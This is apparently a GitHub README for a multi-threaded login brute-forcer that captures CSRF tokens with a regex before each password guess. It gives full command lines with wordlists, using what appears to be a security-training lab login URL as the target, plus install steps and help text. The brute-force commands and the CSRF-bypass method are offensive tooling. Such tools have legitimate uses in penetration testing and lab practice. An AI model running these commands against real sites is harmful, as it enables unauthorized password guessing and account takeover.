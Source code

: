 ![image](https://github.com/user-attachments/assets/207902fe-2e60-497b-9a79-1ddcb460b7ca)
### -> Multi-threaded Login brute-forcer with built-in CSRF token bypass
This tool is designed to brute force website's logins and bypass CSRF token protection. It achieves this by automatically capturing the CSRF token based on regex before each login attempt.

## Table of Contents
- [Features](#features)
- [Usage](#Usage)
  - [Examples](#examples)
- [Preview](#Preview)
- [Installation](#installation)
- [Commands](#Commands)
- [Contact](#contact)


## Features
- **Automatic CSRF handling** - fetches and extracts CSRF tokens (custom regex/param/url) and injects them per request.
- **Multi-threaded** - parallelized login attempts (`--threads`) for higher throughput.
- **Flexible inputs** - supports username/password wordlists or single values (`--users`, `--passwords`, `--user`, `--password`) and customizable POST body (`--data`).
- **Match verification** - validate attempts via status-code ranges (`--match-status`) and response regex (`--match-regex`).
- **Output & logging** - save results to file (`--output`) and enable verbose/debug output (`--verbose`).
- **Transport control** - HTTP/S support with optional SSL verification toggle (`--verify`).
- **Extensible config** - many options (CSRF regex/param/url, custom delimiter/data, etc.) for adapting to different login flows.
- **Planned / not yet implemented** - query-parameter bruteforce (`--query`) and server-side filtering features.

**Note:** Always open for feature/improvement suggestions.

## Usage
To use this script, specify the following:
```
--csrf-regex : A regex pattern to capture the CSRF token.
--csrf-param : The name of the CSRF token parameter.
```
This additional configuration ensures the script accurately captures and uses CSRF tokens during brute force login attempts.
### Examples
```Python
# Basic Example
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --output results.txt
# Using CSRF URL Example
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --csrf-url "https://web-security-academy.net/login" --output results.txt
```

### Preview
![image](https://github.com/user-attachments/assets/6572f919-b586-405a-a365-ebeef00830a2)

## Installation
```bash
git clone https://github.com/WafflesExploits/WafflesFORCE.git
cd WafflesFORCE
python3 wafflesforce.py ...
```
## Commands 
```
╦ ╦╔═╗╔═╗╔═╗╦  ╔═╗╔═╗╔═╗╔═╗╦═╗╔═╗╔═╗
║║║╠═╣╠╣ ╠╣ ║  ║╣ ╚═╗╠╣ ║ ║╠╦╝║  ║╣ 
╚╩╝╩ ╩╚  ╚  ╩═╝╚═╝╚═╝╚  ╚═╝╩╚═╚═╝╚═╝
usage: wafflesforce.py [-h] [--host HOST] [-U [USERS]] [-u [USER]]
                       [-P [PASSWORDS]] [-p [PASSWORD]] [-cr CSRF_REGEX]
                       [-cp CSRF_PARAM] [-cu [CSRF_URL]] [-mr [MATCH_REGEX]]
                       [-ms [MATCH_STATUS]] [-d [DATA]] [-q [QUERY]]
                       [-t [THREADS]] [-o [OUTPUT]] [-vr] [--verbose]

-> Multi-threaded Login Bruteforcer for Bypassing CSRF Token Protection
 

options:
  -h, --help            show this help message and exit
  --host HOST           Target URL.
  -U [USERS], --users [USERS]
                        Path to usernames' wordlist file.
  -u [USER], --user [USER]
                        Specify a single username to use
  -P [PASSWORDS], --passwords [PASSWORDS]
                        Path to passwords' wordlist file.
  -p [PASSWORD], --password [PASSWORD]
                        Specify a single password to use
  -cr CSRF_REGEX, --csrf-regex CSRF_REGEX
                        Specify a Regex pattern to extract the CSRF token. Example:'name="csrf" value="(.*?)">'
  -cp CSRF_PARAM, --csrf-param CSRF_PARAM
                        Specify the CSRF token parameter name to be used in the login POST Request. Example:'csrf'
  -cu [CSRF_URL], --csrf-url [CSRF_URL]
                        URL path to fetch the CSRF token.
  -mr [MATCH_REGEX], --match-regex [MATCH_REGEX]
                        Match the specified regex pattern to verify login attempts. Example:'/login2'
  -ms [MATCH_STATUS], --match-status [MATCH_STATUS]
                        Match specified Status codes. Default:'200-299,301,302'
  -d [DATA], --data [DATA]
                        Body parameters for the POST request. Example:'username=*USER*&password=*PASS*'
  -q [QUERY], --query [QUERY]
                        Feature not added yet - Query parameters for the GET request
  -t [THREADS], --threads [THREADS]
                        Number of threads to use. Default: 5
  -o [OUTPUT], --output [OUTPUT]
                        Outputs results to a file.
  -vr, --verify         Set verify to false. Use this if the website does not support SSL. Example: Uses HTTP instead of HTTPS
  --verbose             Increase Verbosity. Use for debugging or giving more information about login attempts.

[Usage Example]
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --output results.txt

[Using CSRF URL Example]
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --csrf-url "https://web-security-academy.net/login" --output results.txt
```

## Contact
Created by [@WafflesExploits](https://wafflesexploits.github.io/about/) - I'm always open to features/improvement suggestions! You can reach me out on my socials :)
